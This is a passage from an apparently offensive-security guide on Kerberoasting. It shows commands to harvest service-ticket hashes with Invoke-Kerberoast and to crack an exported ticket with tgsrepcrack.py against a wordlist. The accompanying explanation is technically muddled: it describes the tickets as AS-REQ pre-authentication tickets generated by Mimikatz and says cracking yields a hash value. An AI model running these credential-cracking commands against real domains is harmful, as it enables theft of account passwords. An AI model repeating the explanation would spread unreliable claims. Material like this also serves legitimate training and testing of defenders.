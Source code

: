 The working principle of `Invoke-Kerberoast.ps1` is to use PowerShell to remotely connect to the target system, use the `Get-DomainUser` cmdlet to enumerate user accounts in Active Directory, and filter out harvestable accounts. Then, use the `Invoke-Mimikatz` cmdlet to generate Kerberos pre-authentication tickets (AS-REQ), and use a hash tool to crack them to obtain the hash value of the account.

```
Import-Module .\Invoke-Kerberoast.ps1  
Invoke-Kerberoast -outputFormat Hashcat
```

![image-20220625194140601](../../.gitbook/assets/image-20220625194140601.png)

## Service Ticket Bruteforcing

### Using tgsrepcrack.py Script

> Download link: https://github.com/nidem/kerberoast.git

`tgsrepcrack.py` is a Kerberoasting tool written in Python that can be used to crack the hash values of Kerberos pre-authentication tickets (AS-REQ) to obtain the plaintext password or hash value of an account.

> python tgsrepcrack.py <dictionary> <exported service ticket>

```
┌──(root㉿kali)-[/opt/kerberoast-master]
└─# python3 tgsrepcrack.py wordlist /tmp/8-40a10000-machao@MSSQLSvc\~sqlserver.sectest.com-SECTEST.COM.kirbi 
```
